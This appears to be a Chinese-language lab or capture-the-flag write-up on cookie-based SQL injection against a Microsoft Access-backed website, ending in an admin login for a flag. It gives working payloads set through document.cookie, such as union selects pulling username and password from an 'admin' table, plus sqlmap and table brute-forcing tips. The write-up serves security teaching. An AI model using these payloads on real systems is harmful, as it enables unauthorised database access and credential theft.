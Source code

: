 # Chapter 5.1 Access - cookie注入

---

[TOC]

---

## 原理

### Cookie

> Cookie是一个保存在客户机中的简单的文本文件, 这个文件与特定的 Web 文档关联在一起, 保存了该客户机访问这个Web 文档时的信息, 当客户机再次访问这个 Web 文档时这些信息可供该文档使用。由于“Cookie”具有可以保存在客户机上的神奇特性, 因此它可以帮助我们实现记录用户个人信息的功能。

正由于Cookie具有如上所述的记录用户个人信息的功能，大部分网站几乎都会在用户访问时储存Cookie，并且在**用户请求同一网站时发送该Cookie给服务器**。

### [$_REQUEST]

作为超级全局变量，该传参方式不仅可以用来获取由浏览器通过GET\POST方法提交的数据，还能接受Cookie的传参，被广泛使用。

**cookie注入其原理也是将提交的注入参数以Cookie方式提交。**

## 思路

1. 判断注入点、注入方式
2. 修改Cookie中全局变量传参
   - **Application**：通过调试台-Application-cookies中的对应网站设置Cookie，添加参数和注入语句。
     - 优点：无需特定环境和工具，浏览器通用
     + 缺点：需要对每条注入语句进行URL转码
   - **Burp-Decoder**：通过burp抓包，传入decoder解码
     - 优点：方便软件内直接解码
     - 缺点：重复操作繁琐
   - **Chrome插件**：使用插件直接修改
     - 优点：方便网页上直接修改
     - 缺点：仍需手动转码
   - **※Console-JavaScript**：通过调试台-console执行修改cookie语句
     
     - 优点：通过document. Cookie和escape()函数可以便捷地设置cookie和直接转码
3. 查询字段总数
4. 猜询表名列名
   
   - 由于Access数据库没有库名只有表名，也没有information_schema库，所以只能使用暴破的方式猜测表名。
5. 脱库获取信息

## 过程

1. **使用运算符判断是否存在注入点**
```php
?id=171-1 -->返回正常结果
```
![](https://nc0.cdn.zkaq.cn/md/5371/d4fe887de5c756980cfe58add14bd79b_46697.png)

2. **尝试普通SQL注入，被WAF拦截，失败**
```mysql
?id=170 and 1=1
```

![](https://nc0.cdn.zkaq.cn/md/5371/b6f7073a5bea453419c896d8d4dcc93a_57723.png)

3. **尝试使用`document.cookie`传参，通过`order by`推测字段数和回显点**
```javascript
document.cookie="id="+escape("171 order by 10")
```
![](https://nc0.cdn.zkaq.cn/md/5371/0ce9225b0b8c4c8bf31275095f32f26a_31442.png)
4. **使用弱名称暴破猜测表名，判断回显点**
```javascript
document.cookie="id"+escape("171 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

![](https://nc0.cdn.zkaq.cn/md/5371/c23a1fa38eef85be96e95a83c4d98814_99112.png)

5. **猜询字段名**
```javascript
document.cookie="id"+escape("171 union select 1,username,password,4,5,6,7,8,9,10 from admin")
```

![](https://nc0.cdn.zkaq.cn/md/5371/ba323b579deff767117a4bf95f01f931_71022.png)

6. **通过测出的表名和字段名进行查询，返回一串MD5加密信息，进行解密**

![](https://nc0.cdn.zkaq.cn/md/5371/09d453cc38ed6edc958172bf55862064_76362.png)
7. **后台登陆，获取flag。**
![](https://nc0.cdn.zkaq.cn/md/5371/19cd06b7be097431923f961ba9f6d4a0_15414.png)



## 思考与要点

1. 在没有information_schema的情况下要猜测表名只能靠常用的表名字典(如admin，users等)，在手动尝试无效后可以尝试使用SQLmap工具，只需要抓包后在Cookie后添加`*`或者直接加入参数```-- cookie "[str]"```并提高risk等级。

2. Access不支持不带表名的 ```SELECT 1,2,3```，所以一定要跟表名，也可用于表名猜测。
3. 无法查询系统自带库的时候可以使用可以burp暴破，使用``` AND exist(select * from 表名)```。
